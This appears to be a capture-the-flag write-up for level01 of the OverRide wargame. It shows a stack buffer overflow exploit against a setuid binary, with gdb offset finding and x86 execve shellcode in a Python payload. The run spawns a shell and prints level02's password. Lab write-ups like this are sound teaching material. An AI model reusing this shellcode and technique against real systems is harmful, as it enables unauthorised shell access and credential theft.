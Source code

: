 Level01 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
```

Level01 rights:
```Shell
-rwsr-s---+ 1 level02 users   7360 Sep 10  2016 level01
```

Testing the binary shows that it asks for a username and a password, and seems to exit if not provided with the correct values.
Decompiling with Hex-Rays on https://dogbolt.org/ shows three things:
- it won't exit the program if the username is `dat_wil`
- no matter what password you enter, it will exit the program
- there is no system calls or easy access to a shell, so we must do a buffer overflow

The program uses `fgets()` twice, but we will exploit the second call as it uses a local buffer variable `s`.
First, let's find the address of the buffer using `ltrace`:
```Shell
level01@OverRide:~$ ltrace ./level01
[...]
fgets(admin
"admin\n", 100, 0xf7fcfac0) = 0xffffd6ec
[...]
```

Now, let's calculate the offset, using a pattern from a generator:
```Shell
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```
Our offset is 80. Since our shellcode is 21 bytes long, the padding will have to be 59 bytes long.

So this will be our payload: username + "\n" (in order to get to the second user input) + shellcode + padding + address of our buffer written in little endian

Here it is, stored in a place where we can create new files:
```Shell
level01@OverRide:~$ python -c 'print("dat_will\n" + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * 59 + "\xff\xff\xd6\xec"[::-1])' > /tmp/payload01
```

And here is the final result (don't forget to use `-` to keep the shell interactive):
```Shell
level01@OverRide:~$ cat /tmp/payload01 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```